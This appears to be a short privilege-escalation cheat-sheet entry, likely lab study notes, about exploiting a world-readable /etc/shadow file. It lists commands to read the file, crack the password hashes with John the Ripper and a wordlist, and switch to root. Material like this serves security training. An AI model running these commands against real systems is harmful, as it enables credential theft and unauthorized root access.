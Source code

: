 # Weak File Permissions - Readable /etc/shadow

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Switch to the root user, using the cracked password:

`su root`
